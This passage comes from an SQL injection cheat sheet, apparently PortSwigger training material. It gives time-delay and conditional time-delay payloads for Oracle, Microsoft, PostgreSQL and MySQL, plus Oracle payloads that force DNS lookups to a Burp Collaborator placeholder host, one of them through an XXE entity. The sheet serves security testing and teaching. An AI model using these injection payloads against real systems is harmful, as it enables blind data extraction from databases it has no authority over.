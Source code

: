 ## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle

`dbms_pipe.receive_message(('a'),10)`

Microsoft

`WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT pg_sleep(10)`

MySQL

`SELECT SLEEP(10)`

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`

Microsoft

`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

MySQL

`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle

The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`  
  
The following technique works on fully patched Oracle installations, but requires elevated privileges:  
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
